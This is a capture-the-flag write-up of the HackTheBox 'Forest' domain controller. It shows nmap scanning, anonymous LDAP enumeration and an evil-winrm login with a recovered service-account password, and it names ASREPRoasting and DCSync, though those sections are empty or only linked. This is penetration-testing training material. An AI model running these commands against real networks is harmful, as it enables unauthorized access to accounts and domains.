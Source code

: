 # Forest

## Overview

A domain controller created by _HackTheBox_ with Exchange server installed in a minimal AD domain.

The machine covers the following techniques:

* [ASREPRoasting](../../../windows/auth/kerberos.md#asreproasting)
* [DCSync attack](../../../windows/auth/credential/credential\_dumping.md#dcsync-attack)
* Bloodhound

## Reconnaissance

### Port Scanning

We use `nmap` to figure out what services are running on the target.

```bash
$ nmap -Pn -n -sS -p- -T4 --min-rate 1000 <IP>
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
```

The results reveal the following information.

* port 88 tells us that this should be a _domain controller_
* port 389 allows us to fetch information about target AD domain via LDAP
* port 5985 may allow us access the target using _WinRM_ later

### LDAP

It seems that we can fetch information about the target AD domain via [LDAP anonymous authentication](../../../windows/ad/infrastructure/adds/ldap.md#anonymous-authentication).

```bash
$ ldapsearch -H ldap://<IP> -x -b 'dc=htb,dc=local'
```

## Initial Access

### Alfresco

From the information gather through anonymous LDAP query, we found a _service account_ named `svc-alfresco`.

To expand our knowledge of the technology used by our client, the next thing to do is to find what third-party service, which shall be AD-integrated, related this account.

By google, we found a product named [Alfresco Content Services](https://docs.alfresco.com/content-services/7.0).

From the configuration, we see that the account related to this service has been configured with _Kerberos pre-authentication_ disable.

<figure><img src="../../../images/forest_alfresco.png" alt=""><figcaption><p><a href="https://docs.alfresco.com/process-services/latest/config/authenticate/#configuration-steps">Alfresco - Configuration Steps</a></p></figcaption></figure>

This allows us to get the TGT for this account `svc-alfresco`, and conduct the [_ASREPRoasting_](../../../windows/auth/kerberos.md#asreproasting)[ ](../../../windows/auth/kerberos.md#asreproasting)attack to retrieve the account password from the requested TGT.

### ASREPRoasting

### WinRM

We can now login to the target host with the credential we got via [WinRM](../../../windows/execution/remote/winrm.md).

```bash
$ evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```

## Reference

[DCSync Attack](../../../windows/auth/credential/credential\_dumping.md#dcsync-attack)\
[WinRM](../../../windows/execution/remote/winrm.md)
